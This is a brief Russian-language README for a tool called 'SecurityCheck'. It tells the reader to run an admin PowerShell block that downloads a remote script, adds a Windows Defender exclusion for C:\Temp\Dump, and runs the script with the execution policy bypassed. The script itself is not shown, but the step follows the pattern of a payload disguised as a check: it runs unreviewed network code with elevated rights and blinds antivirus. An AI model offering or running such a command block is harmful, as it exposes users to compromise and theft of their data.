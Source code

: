 # 🛡 SecurityCheck

> **⚠️ Внимание!**  
> Перед запуском убедитесь, что доверяете источнику скрипта.

Откройте **PowerShell** от имени администратора и выполните:

```powershell
New-Item -Path "C:\Temp" -ItemType Directory -Force | Out-Null;
Set-Location "C:\Temp";
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Brevzor/SecurityCheck/main/Checker.ps1" -OutFile "Checker.ps1";
Add-MpPreference -ExclusionPath 'C:\Temp\Dump' | Out-Null;
powershell -ExecutionPolicy Bypass -File "C:\Temp\Checker.ps1";
